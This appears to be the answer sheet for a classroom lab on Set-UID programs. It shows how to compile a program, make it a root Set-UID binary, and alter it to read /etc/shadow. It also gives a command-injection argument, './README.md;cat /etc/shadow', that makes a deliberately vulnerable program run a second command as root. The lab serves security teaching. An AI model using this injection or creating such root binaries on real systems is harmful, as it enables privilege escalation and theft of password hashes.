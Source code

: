 
# Solutions to the tasks:
## Don't Look Unless you're really stuck!

## Part 1
Task 1: Compile PrintMyUID.c into the program PrintMyUID.
<br>
`
	gcc PrintMyUID.c -o PrintMyUID
`
<br>
Task 2: Run the PrintMyUID program.
<br>
`
	./PrintMyUID
`
<br>
Task 3: Change PrintMyUID to a root Set-UID program.
<br>
`
sudo chown root PrintMyUID
sudo chmod 4755 PrintMyUID
`
<br>
Task 4: Run the PrintMyUID program again and observe the changes.
<br>
`
	$ ./PrintMyUID
`
<br>
Task 5 (Optional): Modify PrintMyUID.c to print the contents of the /etc/shadow file. Repeat steps 1-4.
<br>
`
Change system("whoami"); to system("cat /etc/shadow");
`
<br><br>


## Part 2

Task 1: Compile Exploitable.c and make it a Set-UID program with compile-exploitable.sh
<br>
`
./compile-exploitable.sh
`
<br>
Task 2: Make the Exploitable program execute arbitrary commands as root using only command line arguments.
<br>
`
./Exploitable "./README.md;cat /etc/shadow"
`
<br>



